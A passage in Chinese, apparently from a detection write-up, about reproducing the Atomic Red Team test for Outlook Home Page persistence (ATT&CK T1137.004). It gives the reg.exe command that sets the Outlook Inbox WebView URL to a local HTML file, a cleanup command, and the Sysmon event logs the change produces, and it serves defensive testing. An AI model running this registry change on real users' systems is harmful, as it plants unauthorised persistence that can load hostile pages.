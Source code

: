    **真实测试结果**：
   ```dos
   C:\Users\Administrator.ZHULI>reg.exe add HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox /v URL /t REG_SZ /d C:\Users\Administrator.ZHULI\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1137.004\src\T1137.004.html /f
   操作成功完成。
   ```

2. **触发持久化**  
   启动Outlook并打开收件箱，加载恶意HTML页面。  

3. **清理注册表（测试后）**  
   删除注册表键：
   ```dos
   reg.exe delete HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox /v URL /f >nul 2>&1
   ```

4. **验证结果**  
   - 检查注册表键：
     ```dos
     reg query HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox
     ```
   - 检查日志：  
     - **Sysmon日志（事件ID 1）**：
       ```plaintext
       EventID: 1
       RuleName: technique_id=T1112,technique_name=Modify Registry
       UtcTime: 2022-01-11 06:54:50.664
       ProcessGuid: {78c84c47-29ba-61dd-b821-000000000800}
       ProcessId: 6040
       Image: C:\Windows\System32\reg.exe
       CommandLine: reg.exe add HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox /v URL /t REG_SZ /d C:\Users\Administrator.ZHULI\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1137.004\src\T1137.004.html /f
       User: ZHULI\Administrator
       IntegrityLevel: High
       ```
     - **Sysmon日志（事件ID 13）**：
       ```plaintext
       EventID: 13
       EventType: SetValue
       UtcTime: 2022-01-11 06:54:50.675
       ProcessId: 6040
       Image: C:\Windows\System32\reg.exe
       TargetObject: HKU\S-1-5-21-2729552704-1545692732-1695105048-500\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox\URL
       Details: C:\Users\Administrator.ZHULI\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1137.004\src\T1137.004.html
       User: ZHULI\Administrator
       ```

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 测试留痕
